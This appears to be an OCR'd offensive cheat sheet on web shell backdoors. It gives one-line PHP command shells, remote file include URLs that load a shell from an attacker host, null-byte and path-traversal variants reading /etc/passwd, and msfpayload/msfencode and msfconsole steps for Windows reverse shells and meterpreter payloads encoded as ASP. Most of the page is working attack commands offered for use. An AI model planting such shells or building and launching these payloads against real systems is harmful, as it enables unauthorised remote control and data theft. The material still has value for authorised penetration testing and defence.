 **WebShell Backdoors**

Minimal php command shells

file cmd.php: PHP script text =&gt;

&lt;?php system\($\_GET\['cmd'\]\) ?&gt;

or

&lt;?php system\($\_REQUEST\['cmd'\]\); ?&gt;

**Example usage via Remote File Include \(RFI\):**

[http://&lt;target-ip&gt;/index.php?cmd=&lt;command](http://<target-ip>/index.php?cmd=<command) to execute&gt;&page=[http://&lt;attacker-ip&gt;/cmd.php](http://<attacker-ip>/cmd.php)

Null Bytes \(%00 - html code ampersand, hash 137, 00\) may also assist in some cases:

[http://&lt;target-ip&gt;/index.php?cmd=&lt;command](http://<target-ip>/index.php?cmd=<command) to execute&gt;&page=[http://&lt;attacker-ip&gt;/cmd.php](http://<attacker-ip>/cmd.php)%00

e.g.

[http://&lt;attacker-ip&gt;/index.php?system=../../../../../etc/passwd.html](http://<attacker-ip>/index.php?system=../../../../../etc/passwd.html)

**Encoding windows reverse command shell as asp**

msfpayload windows/shell\_reverse\_tcp LHOST=&lt;attacker-ip&gt; LPORT=&lt;attacker-nc-port&gt; R \| msfencode -t asp -o &lt;filename&gt;.asp

**Encoding meterpreter in asp**

msfpayload windows/meterpreter/reverse\_tcp LHOST=&lt;attacker-ip&gt; LPORT=&lt;attacker-multi-handler-port&gt; R \| msfencode -t asp -o &lt;filename&gt;.asp

---

**attacker msfconsole:**

use multi/exploit/handler

set payload windows/meterpreter/reverse\_tcp

set LHOST &lt;attacker-ip&gt;

set LPORT &lt;attacker-multi-handler-port&gt;

exploit

[http://stackoverflow.com/questions/3115559/exploitable-php-functions](http://stackoverflow.com/questions/3115559/exploitable-php-functions)

---

Encoding and Decoding - for backdoors, injection, and \(de\)obfustication

[http://www.asciitohex.com/](http://www.asciitohex.com/)

[http://home.paulschou.net/tools/xlate/](http://home.paulschou.net/tools/xlate/)

[http://www.idea2ic.com/PlayWithJavascript/hexToAscii.html](http://www.idea2ic.com/PlayWithJavascript/hexToAscii.html)

